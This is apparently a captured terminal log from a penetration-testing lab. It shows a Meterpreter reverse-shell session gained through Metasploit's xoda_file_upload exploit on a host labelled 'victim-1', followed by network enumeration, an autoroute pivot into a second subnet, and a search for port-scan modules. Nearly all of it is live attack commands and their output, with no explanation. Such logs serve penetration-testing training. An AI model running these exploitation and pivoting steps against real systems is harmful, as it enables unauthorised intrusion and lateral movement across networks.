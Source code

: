 ```
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

www-data@victim-1:/app/files$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
15802: eth0@if15803: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:03:f8:03 brd ff:ff:ff:ff:ff:ff
    inet 192.3.248.3/24 brd 192.3.248.255 scope global eth0
       valid_lft forever preferred_lft forever
15804: eth1@if15805: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:cd:3e:02 brd ff:ff:ff:ff:ff:ff
    inet 192.205.62.2/24 brd 192.205.62.255 scope global eth1
       valid_lft forever preferred_lft forever
www-data@victim-1:/app/files$

meterpreter > run autoroute -s 192.205.62.3

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.205.62.3/255.255.255.0...
[+] Added route to 192.205.62.3/255.255.255.0 via 192.3.248.3
[*] Use the -p option to list all active routes
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(unix/webapp/xoda_file_upload) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.3.248.2:4444 -> 192.3.248.3:37598 (192.3.248.3)

msf5 exploit(unix/webapp/xoda_file_upload) > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   3  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   4  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
```
